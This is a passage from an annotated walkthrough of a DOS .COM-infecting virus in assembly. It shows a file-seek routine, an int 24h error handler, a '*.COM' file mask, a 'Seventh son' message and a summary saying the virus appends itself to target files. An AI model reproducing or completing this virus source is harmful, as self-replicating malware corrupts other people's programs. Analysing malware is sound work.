 ```assembly
seek:           mov     ah,42
                cwd
int21:          xor     cx,cx
                int     21
                mov     cl,4
                mov     dx,si
                ret
```
- Moves the file pointer using interrupt 21h.

## Interrupt Handler 24h

```assembly
ni24:           mov     al,03
                iret
```
- Interrupt handler for int24.

## Data

```assembly
generation      db      1,1
sontxt          db      'Seventh son of a seventh son',0Dh, 0Ah, '$'
filename        db      '*.COM',0
                db      '‚¨°³±'

end:
```
- Defines data for generation, a message, and filenames.

## End of Segment

```assembly
cseg            ends
                end     begin
```
- Ends the segment and the program.

---

In summary, this assembly program is an example of a virus that infects .COM files. It manipulates DOS interrupts to control files and propagates itself by appending its code to the end of target files.
